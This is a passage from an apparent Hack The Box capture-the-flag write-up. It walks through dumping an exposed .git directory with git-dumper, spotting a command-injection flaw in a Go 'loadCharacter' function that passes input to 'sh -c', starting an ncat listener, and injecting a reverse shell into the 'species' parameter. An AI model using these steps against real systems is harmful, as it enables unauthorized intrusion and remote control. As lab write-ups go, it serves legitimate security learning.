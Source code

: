 ```
.git                    [Status: 301, Size: 41, Words: 3, Lines: 3]
:: Progress: [119600/119600] :: Job [1/1] :: 1495 req/sec :: Duration: [0:01:29] :: Errors: 0 ::
```

We can quickly dump this using `git-dumper`.

```
$ git-dumper http://pets.devzat.htb/.git dump
[-] Testing http://pets.devzat.htb/.git/HEAD [200]
[-] Testing http://pets.devzat.htb/.git/ [200]
[-] Fetching .git recursively
...[snip]...
```

## Command injection

The `loadCharacter` function in `main.go` looks interesting as it seems to be vulnerable to command injection by directly passing user controlled input to `sh -c`.

`main.go`
```go
...[snip]...
func loadCharacter(species string) string {
	cmd := exec.Command("sh", "-c", "cat characteristics/"+species)
	stdoutStderr, err := cmd.CombinedOutput()
	if err != nil {
		return err.Error()
	}
	return string(stdoutStderr)
}
...[snip]...
```

This function get's called when we add a new pet to the list, so let's intercept the request for it in burp and send it to repeater. Next we set up a ncat listener to catch the reverse shell.

```
$ nc -lnvp 7575
Ncat: Version 7.92 ( https://nmap.org/ncat )
Ncat: Listening on :::7575
Ncat: Listening on 0.0.0.0:7575
```

The vulnerable parameter is the `species` parameter so we inject our bash reverse shell there, terminating before and after it with `;`, and send the request.
